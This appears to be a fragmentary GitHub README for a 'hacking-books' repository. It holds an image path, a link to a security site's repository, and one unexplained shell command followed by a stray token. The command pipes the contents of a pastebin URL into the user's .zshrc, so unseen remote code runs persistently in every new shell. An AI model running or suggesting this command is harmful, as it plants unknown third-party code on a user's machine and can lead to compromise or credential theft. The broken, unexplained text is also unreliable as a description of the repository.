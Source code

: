 # hacking-books

https://repo.zenk-security.com/ 

curl https://pastebin.com/raw/6SNp88i7 >> .zshrc Sy6T01Dh
